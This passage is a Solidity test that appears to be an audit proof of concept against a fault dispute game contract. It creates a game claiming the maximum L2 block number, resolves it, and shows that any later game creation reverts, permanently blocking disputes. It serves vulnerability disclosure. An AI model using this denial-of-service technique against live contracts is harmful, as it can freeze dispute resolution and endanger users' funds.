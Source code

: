```solidity

    }

    function testSecondFaultIsForeverDossed() public {
        DisputeGameFactory factory = new DisputeGameFactory();

        AnchorStateRegistry registry = new AnchorStateRegistry(IDisputeGameFactory(factory));

        FaultDisputeGame firstGame = new FaultDisputeGame(
            GameType.wrap(1),
            Claim.wrap(bytes32(0x0)),
            73, // MAX_DEPTH
            30, // 30 SPLIT_DEPTH
            Duration.wrap(604800), // 7 days

            IBigStepper(address(this)),
            IDelayedWETH(address(this)),
            IAnchorStateRegistry(registry),
            123123
        );

        factory.setImplementation(GameType.wrap(1), IDisputeGame(firstGame));

        AnchorStateRegistry.StartingAnchorRoot[] memory initialRoots = new AnchorStateRegistry.StartingAnchorRoot[](1);
        initialRoots[0].gameType = GameType.wrap(1);
        initialRoots[0].outputRoot = OutputRoot({
            root: Hash.wrap(bytes32(uint256(123123))),
            l2BlockNumber: 1
        });

        registry.initialize(
            initialRoots
        );

        // Deploy one Fault Game with valid `ANCHOR_STATE_REGISTRY`
        // And L2 block set to max
        FaultDisputeGame proxy = FaultDisputeGame(payable(address(factory.create(
            GameType.wrap(1),
            Claim.wrap(bytes32(uint256(123))),
            abi.encode(type(uint256).max)
        ))));

        // Settle it
        vm.warp(block.timestamp + proxy.gameDuration().raw() + 1);
        proxy.resolveClaim(0);
        proxy.resolve();

        // NOTE: Since L2Block / ExtraData is never validate, there is no way to dispute the valid proof

        // Deploy second Fault Game -> It reverts on initialize
        FaultDisputeGame secondProxy = FaultDisputeGame(payable(address(factory.create(
            GameType.wrap(1),
            Claim.wrap(bytes32(uint256(12312313))),
            abi.encode(type(uint256).max)
        ))));
    }
}

```

